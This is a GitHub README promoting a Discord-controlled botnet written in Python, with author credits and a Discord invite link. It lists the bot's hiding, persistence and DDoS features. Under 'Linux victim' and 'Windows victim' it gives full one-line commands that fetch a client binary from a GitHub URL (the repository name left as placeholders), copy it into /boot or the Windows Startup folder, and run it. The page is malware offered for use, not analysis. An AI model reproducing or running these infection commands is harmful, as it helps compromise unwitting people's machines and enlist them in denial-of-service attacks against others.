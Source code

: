 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png)

https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849462-74c44f4f-463b-4549-b0bd-53ba0416bcfc.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & WClient.exe
